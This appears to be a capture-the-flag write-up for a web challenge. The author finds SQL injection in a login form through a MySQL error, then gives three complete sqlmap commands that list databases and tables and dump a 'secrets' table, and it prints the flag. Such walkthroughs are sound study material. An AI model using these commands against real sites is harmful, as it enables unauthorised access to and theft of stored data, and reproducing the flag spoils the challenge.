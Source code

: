 # Challenge WEB: Breaking Authentication
![image](https://github.com/user-attachments/assets/8f1ed3a7-d3d8-4d6a-8d79-3c7ad5828a98)

First we have the login form, I tried username: ' , passwd: 1 and I found it:
![image](https://github.com/user-attachments/assets/f5096ad8-3594-43ad-ad26-038de03643dc)

it gives query error and we see database management system is mySQL 
![image](https://github.com/user-attachments/assets/01b4c0a9-a741-4054-a003-cf795a63abc1)


it causes query error and we see the database management system is mySQL, it is likely to be SQLi so I try to use sqlmap tool (you can research about this tool by AI chat):
sqlmap -u "http://23.179.17.40:58001/index.php" \
--method=POST \
--data="username=1&password=1&login=Login" \
--cookie="PHPSESSID=d1062a9958cc6bbeafcd2e8e0cb6e038" \
-p username \
--dbs \
--batch
after this command we see:
![image](https://github.com/user-attachments/assets/0502f3ed-025f-4dc0-9e8f-625450c3389f)

we have listed 5 databases:
information_schema MySQL metadata system
mysql Stores MySQL admin account, does not contain web user
performance_schema MySQL performance monitoring
sys System structure (like view)
app → Only name “sounds like web application name” you are testing
we use sql with database named app via command:
sqlmap -u "http://23.179.17.40:58001/index.php" \
--method=POST \
--data="username=1&password=1&login=Login" \
--cookie="PHPSESSID=d1062a9958cc6bbeafcd2e8e0cb6e038" \
-p username \
-D app --tables \
--batch
I see 2 tables in there and I focus on the secrets table
![image](https://github.com/user-attachments/assets/18f8bd61-7263-4dcf-89fa-2d0799246254)

The last step we need is to dump the column information in the secrets row, and after using the command:
sqlmap -u "http://23.179.17.40:58001/index.php" \
--method=POST \
--data="username=1&password=1&login=Login" \
--cookie="PHPSESSID=d1062a9958cc6bbeafcd2e8e0cb6e038" \
-p username \
-D app -T secrets --dump \
--batch
we have the flag
![image](https://github.com/user-attachments/assets/1f35112f-8c30-43cd-a32f-02334511b46f)

problem solved: CIT{36b0efd6c2ec7132}
